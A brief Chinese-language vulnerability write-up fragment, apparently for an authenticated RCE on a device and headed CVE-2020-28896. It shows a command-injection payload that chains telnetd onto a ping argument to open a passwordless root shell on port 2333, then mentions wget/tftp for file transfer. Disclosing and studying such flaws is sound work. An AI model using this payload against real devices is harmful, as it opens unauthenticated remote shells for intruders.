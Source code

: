 ```sh
ping 0.0.0.0 & telnetd -l /bin/sh -p 2333 -b 0.0.0.0
```

![](image/3e77ee17e0a75f4ae7dec4144ff2221b.png)

直接通过2333端口连接是不需要密码，直接进入shell

![](image/207aa88ba35843e3f5916a68ae9424f7.png)

## 说明
此漏洞为授权执行RCE开启telnetd服务，拿到shell

## 传输命令

wget tftp

![](image/9f7c20e5f2249fc0f8f765069aaee6bb.png)

# CVE-2020-28896
